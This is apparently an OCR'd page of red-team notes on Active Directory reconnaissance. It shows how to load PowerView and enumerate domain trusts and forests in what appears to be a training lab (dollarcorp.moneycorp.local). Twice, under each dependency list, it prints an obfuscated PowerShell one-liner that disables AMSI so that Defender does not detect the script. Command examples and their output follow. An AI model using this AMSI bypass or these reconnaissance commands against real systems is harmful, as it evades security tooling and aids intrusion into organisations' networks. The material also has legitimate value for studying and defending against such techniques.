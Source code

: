* PowerView
    - https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
    - Load up PowerView
    - If Defender is not disabled, AMSI will step in and detect
    - You will need to use a bypass to load it correctly
        + ```sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;   (   GeT-VariaBle  ( "1Q2U" +"zx"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )```
    - `cd C:\AD\Tools\`
    - `. .\PowerView.ps1`

#### Attack Command: Run with `powershell`!

* `Get-NetDomainTrust`
* `Get-NetDomainTrust -Domain us.dollarcorp.moneycorp.local`

	* Examples

```
PS C:\AD\Tools> Get-NetDomainTrust

SourceName                 TargetName                      TrustType TrustDirection
----------                 ----------                      --------- --------------
dollarcorp.moneycorp.local moneycorp.local               ParentChild  Bidirectional
dollarcorp.moneycorp.local us.dollarcorp.moneycorp.local ParentChild  Bidirectional
dollarcorp.moneycorp.local eurocorp.local                   External  Bidirectional

PS C:\AD\Tools> Get-NetDomainTrust -Domain eurocorp.local

SourceName     TargetName                   TrustType TrustDirection
----------     ----------                   --------- --------------
eurocorp.local eu.eurocorp.local          ParentChild  Bidirectional
eurocorp.local dollarcorp.moneycorp.local    External  Bidirectional
```

#### Tags:

<pre>#!AD #!ActiveDirectory #!Windows #!PowerShell #!PowerView #!Trust</pre>

<br/><br/>

### Attacks
* Get-NetForest (PowerView)
	* Overview

* Get details about the current forest

#### Dependencies:

* PowerView
    - https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
    - Load up PowerView
    - If Defender is not disabled, AMSI will step in and detect
    - You will need to use a bypass to load it correctly
        + ```sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;   (   GeT-VariaBle  ( "1Q2U" +"zx"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )```
    - `cd C:\AD\Tools\`
    - `. .\PowerView.ps1`
